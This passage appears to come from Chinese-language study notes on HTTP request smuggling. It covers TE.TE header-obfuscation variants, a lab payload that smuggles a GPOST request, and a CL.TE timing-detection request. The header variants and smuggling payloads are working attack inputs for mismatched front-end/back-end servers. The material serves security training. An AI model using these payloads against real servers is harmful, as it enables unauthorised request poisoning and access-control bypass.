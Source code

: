 **Note**

You need to include the **trailing sequence \r\n\r\n** following the final 0.

### TE.TE behavior: obfuscating the TE header

通过以某种方式混淆header，可以诱导其中一个服务器不处理它。

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

必须找到`Transfer-Encoding`头的一些变体，以便只有**一个前端或后端服务器处理它，而另一个服务器忽略它**。

lab：

```http
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

## Finding HTTP request smuggling vulnerabilities

最普遍有效的方法是发送请求，如果存在漏洞，将导致应用程序响应出现**时间延迟**

### Finding CL.TE using timing techniques

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```
